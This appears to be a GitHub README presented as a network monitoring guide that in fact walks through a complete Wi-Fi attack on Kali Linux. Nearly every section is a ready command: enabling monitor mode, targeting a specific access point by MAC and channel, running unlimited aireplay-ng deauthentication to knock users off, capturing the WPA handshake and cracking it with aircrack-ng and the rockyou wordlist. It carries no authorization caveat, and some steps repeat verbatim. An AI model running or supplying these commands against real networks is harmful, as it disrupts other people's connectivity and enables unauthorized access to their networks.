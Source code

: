 # Network Monitoring

## Overview
This document provides a step-by-step guide for using various network monitoring and penetration testing commands on Kali Linux. Follow these instructions to check your Kali Linux version, verify network interfaces, manage processes, enable monitor mode, and perform deauthentication attacks using tools like `airmon-ng`, `airodump-ng`, `aireplay-ng`, `wireshark`, and `aircrack-ng`.

## Instructions

### Check Kali Linux Version
To determine which version of Kali Linux you are using, execute the following commands:
```sh
cat /etc/os-release
uname -a
```

### Check Internet Connection and Network Interfaces

Use the following commands to check the status of your network interfaces:

```
iwconfig
ifconfig
ip addr
```


### Kill Conflicting Processes

Before starting monitor mode, kill any processes that might interfere:

```sh

sudo airmon-ng check kill
```
### Start Monitor Mode

Enable monitor mode on your wireless interface (e.g., wlan0):

```sh

sudo airmon-ng start wlan0
```
### Verify Monitor Mode

Confirm that monitor mode is enabled using:

```sh

sudo airmon-ng
# or
iwconfig
```

### Capture AP's MAC Address and Channel

Use airodump-ng to identify the Access Point (AP) you want to target:

```sh

sudo airodump-ng wlan0mon
```

Note down the AP's MAC address and channel. For example:

    AP-MAC: 90:9A:4A:B8:F3:FB
    Channel: 2

### Start Packet Capture

Open a new terminal window and start capturing packets:

```sh

sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon
```
### Perform Deauthentication Attack

In another terminal window, execute the deauthentication attack:

```sh

sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```
### Analyze Captured Packets

Open the captured packets file in Wireshark:

```sh

wireshark hack1-01.cap
```
Filter by eapol to find the handshake packets.
### Stop Monitor Mode

After completing the capture, stop monitor mode:

```sh

sudo airmon-ng stop wlan0mon
```
### Crack the Password

Use aircrack-ng to crack the password from the captured handshake:

```sh

aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
### Display Specific AP

To focus on a specific AP, use the following command:

```sh

sudo airodump-ng wlan0mon -d 90:9A:4A:B8:F3:FB
```
### Deauthenticate User

To deauthenticate a user and stop their service, use:

```sh

sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```
### Change Network Mode

Switch from 'Monitor' mode back to 'Managed Access Point' mode:

```sh

sudo airmon-ng stop wlan0mon
```

### Final Password Crack Attempt

Perform the final password crack attempt:

```sh

aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
